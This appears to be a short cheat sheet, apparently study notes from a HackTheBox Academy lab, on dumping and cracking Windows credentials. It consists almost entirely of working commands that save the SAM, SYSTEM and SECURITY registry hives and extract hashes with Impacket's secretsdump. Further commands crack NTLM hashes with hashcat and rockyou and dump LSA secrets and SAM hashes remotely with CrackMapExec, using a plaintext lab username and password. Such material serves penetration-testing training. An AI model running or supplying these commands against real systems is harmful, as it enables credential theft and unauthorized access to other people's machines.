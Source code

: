 # Attacking SAM
## Using reg.exe save to Copy Registry Hives
```
> reg.exe save hklm\sam C:\sam.save
> reg.exe save hklm\system C:\system.save
> reg.exe save hklm\security C:\security.save
```

## Dumping Hashes with Impacket's secretsdump.py
```
$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

$ impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
```

## Cracking Hashes with Hashcat
```
$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```
## Remote Dumping & LSA Secrets Considerations
### Dumping LSA Secrets Remotely
```
$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

### Dumping SAM Remotely
```
$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```
